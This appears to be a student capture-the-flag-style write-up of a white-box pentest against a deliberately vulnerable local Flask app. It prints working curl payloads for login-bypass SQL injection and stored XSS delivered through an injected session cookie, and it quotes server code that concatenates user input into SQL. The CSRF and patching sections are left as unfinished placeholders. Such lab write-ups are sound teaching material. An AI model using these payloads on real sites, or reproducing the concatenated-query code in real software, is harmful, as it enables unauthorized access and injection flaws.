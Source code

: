 ```yaml
---
title: This Damned Vulnerable Snake!
date: 2024-05-04
author:
  - "0x42697262"
  - Orochi
  - Jinx
---
```


Authors:

- 0x42697262
- Jinx
- Orochi

# This Damned Vulnerable Snake!

## TL;DR

Here are the vulnerabilities and to exploit them:

### SQL Injection

```bash
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
```

### Stored XSS

```bash
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users --" --data-raw 'message=<script>alert(window.origin)</script>'
```

### CSRF

how

## Introduction

Another month, another machine problem.
However this time, we're diving into some white-box penetration testing, which means we have full access to the source code of the web server.

The instructions to install and run the server is already provided in the [writeup](./writeup/README.txt) directory.
Please read and follow the instructions to setup the Python Flask web server.

Once the server is up and running, visit [http://0.0.0.0:5000](http://0.0.0.0:5000) and be greeted with a remnant of the 90s internet web page login.
*It's ugly because there's no CSS.*

If using a web browser is annoying, use `curl`.

```bash
curl -L 'http://0.0.0.0:5000'
```

And return an HTML login page.

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <form method="post" action="/login">
      <label for="username">Username</label>
      <input name="username" type="text" />
      <label for="password">Password</label>
      <input name="password" type="password" />
      <input type="submit" value="Login" />
    </form>
  </body>
</html>
```

Then that's it.
That's the only thing that can be seen on the website without logging in.
There's no `robots.txt` because the web server is simple and small.

The mission of this machine problem?
It is to **find vulnerabilities** as much as possible and **exploit** them.

That is what we will be doing today!

## Exploitation

Since we have full access to the server already, there's no need to perform reconnaissance. 
Thus we will head straight to exploitation.

First up is the login page.
There is no need to **bruteforce** the login page as its vulnerability is obvious.

Take a look at this code, it is possible to perform SQL injection to it.

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    cur = con.cursor()
    if request.method == "GET":
        if request.cookies.get("session_token"):
            res = cur.execute("SELECT username FROM users INNER JOIN sessions ON "
                              + "users.id = sessions.user WHERE sessions.token = '"
                              + request.cookies.get("session_token") + "'")
            user = res.fetchone()
            if user:
                return redirect("/home")

        return render_template("login.html")
    else:
        res = cur.execute("SELECT id from users WHERE username = '"
                    + request.form["username"]
                    + "' AND password = '"
                    + request.form["password"] + "'")
        user = res.fetchone()
        if user:
            token = secrets.token_hex()
            cur.execute("INSERT INTO sessions (user, token) VALUES ("
                        + str(user[0]) + ", '" + token + "');")
            con.commit()
            response = redirect("/home")
            response.set_cookie("session_token", token)
            return response
        else:
            return render_template("login.html", error="Invalid username and/or password!")
```

Notice that the flow of this code redirects to the homepage when a session is present but proceeds to the login page when one is not.

On the `GET` method request, the SQL code is vulnerable.
However, we won't be focusing on that.

The simplest part is the `POST` request because even if we don't have full access to the source code, we can still conduct basic checks to determine if the server is vulnerable or not.

This part of the code can be exploited to bypass the login and allows us to use the first user index, usually admin or root in others.

```python
res = cur.execute("SELECT id from users WHERE username = '"
            + request.form["username"]
            + "' AND password = '"
            + request.form["password"] + "'")
```

To exploit this page, simply set the username to a SQL query that evaluates to `TRUE`.

- `228922' OR 1=1 --`
- `228922' OR TRUE --`

This would get parsed by the sqlite3 handler as

```sql
SELECT id from users WHERE username = '228922' OR 1=1 -- AND password = ''
```

> [!NOTE]
> `'` is used instead of `"` because that's what the source code uses.
> Otherwise, it's `"`.

And we're in!
We should now be greeted with

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
    <ul>
      No posts.
    </ul>
  </body>
</html>
```

And logged in as `alice`.

Unfortunately, the database only contains `alice` as the user (not even root or admin) and an unhashed password (which is very unsecure!!!).

Let's just call this **aCVE-2024-1** as some sort of a tracker for this machine problem (of course this CVE doesn't exist irl).


---

This will also create a new `session_token` every time.
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 24 from users; --&password="

curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT '69420' as id, 'eli' as username FROM users LIMIT 1--" --data-raw 'message=<script>alert(window.origin); alert(177013)</script>'

curl 'http://0.0.0.0:5000/home'  -H 'Cookie: session_token=f5c8541ad5f844d551a4fc9f2554b821b437232324d32260e6d260c4603dbf8a' 

## Patching the vulnerabilities

change code bro
